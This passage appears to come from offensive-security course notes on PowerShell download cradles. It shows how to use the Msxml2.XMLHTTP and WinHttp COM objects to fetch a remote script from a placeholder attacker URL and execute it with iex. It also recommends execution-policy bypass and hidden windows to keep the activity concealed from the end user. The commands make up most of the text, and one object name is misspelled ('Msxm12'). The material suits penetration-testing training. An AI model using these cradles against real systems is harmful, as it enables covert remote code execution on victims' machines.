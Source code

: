 

Take note that all of the above COM Objects are proxy-aware, and will by default, use system configured
proxies, except for the "WinHttp.WinHttpRequest.5.1" object, although that object can be configured to use
one if needed



We can utilize the COM Objects in the same way we do with the Net.WebClient objects, by using the 
New-Object cmdlet, but with the -ComObject parameter

In the below, we're utilizing the "Msxml2.XMLHTTP" object for executing a remotely hosted PowerShell
script:

PS C:\> $downloader = New-Object -ComObject Msxm12.XMLHTTP
PS C:\> $downloader.open("GET", "http://attacker_URL/script.ps1", $false)
PS C:\> $downloader.send()
PS C:\> iex $downloader.responseText


# WinHttp.WinHttpRequest.5.1 COM Object

We can do the same as well with the WinHttp.WinHttpRequest.5.1 object as well:

PS C:\> $downloader = New-Object -ComObject WinHttp.WinHttpRequest.5.1
PS C:\> $downloader.open("GET", "http://attacker_URL/script.ps1", $false)
PS C:\> $downloader.send()
PS C:\> iex $downloader.responseText


Keep in mind, that all of the previous slides and future multi-line commands we're showing as examples,
can also be done as one-liners, by using a semicolon (;) to break up the commands


Alternatively, it can be wrapped up into a script file and be executed that way as well: 


PS C:\> .\downloader.ps1

or 

C:\> powershell.exe .\downloader.ps1



# ExecutionPolicy Bypass and Hidden Window


With all of these examples, when executing the download cradles from a windows command prompt or shell, 
or when launching the powershell.exe executable, make sure to include the -ExecutionPolicy Bypass and
-Window Hidden options we covered in the fundamentals module

This will ensure we can run our scripts and that the PowerShell window stays hidden from the end-user
